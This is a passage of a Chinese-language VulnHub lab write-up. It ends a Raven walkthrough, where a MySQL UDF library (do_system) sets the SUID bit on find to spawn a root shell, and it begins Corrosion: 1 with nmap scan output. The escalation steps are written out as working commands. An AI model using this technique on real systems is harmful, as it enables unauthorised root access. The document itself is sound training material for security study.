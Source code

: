 **开始提权**

```bash
# 本地查看库文件的可用函数
┌──(root㉿pinginglab)-[/var/www/html]
└─# nm -D udf.so                             
                 w __cxa_finalize@GLIBC_2.2.5
0000000000001109 T do_system
000000000000114d T do_system_init
                 w __gmon_start__
                 w _ITM_deregisterTMCloneTable
                 w _ITM_registerTMCloneTable
                 U system@GLIBC_2.2.5

# 创建函数 do_system 并返回整形，调用的库文件为：udf.so
mysql> create function do_system returns integer soname 'udf.so';       
create function do_system returns integer soname 'udf.so';
Query OK, 0 rows affected (0.00 sec)

# 利用该函数执行系统命令为 find二进制文件 赋予SUID权限
mysql> select do_system('chmod u+s /usr/bin/find');
select do_system('chmod u+s /usr/bin/find');
+--------------------------------------+
| do_system('chmod u+s /usr/bin/find') |
+--------------------------------------+
|                                    0 |
+--------------------------------------+
1 row in set (0.01 sec)

# 开始提权并获取root交互shell
www-data@Raven:/var/www/html$ touch abc
touch abc

www-data@Raven:/var/www/html$ find abc -exec "/bin/sh" \;
find abc -exec "/bin/sh" \;
# whoami
whoami
root
```

# vulnhub 靶场 Corrosion: 1

## 1. 信息搜集

**1.1 nmap 扫描**

目标主要开了80端口和22端口

```bash
──(kali㉿kali)-[~]
└─$ nmap -T4 -A -p- -Pn       
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-19 02:26 EST
Nmap scan report for 192.168.231.156
Host is up (0.0015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Ubuntu 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0c:a7:1c:8b:4e:85:6b:16:8c:fd:b7:cd:5f:60:3e:a4 (RSA)
|   256 0f:24:f4:65:af:50:d3:d3:aa:09:33:c3:17:3d:63:c7 (ECDSA)
|_  256 b0:fa:cd:77:73:da:e4:7d:c8:75:a1:c5:5f:2c:21:0a (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.46 (Ubuntu)
```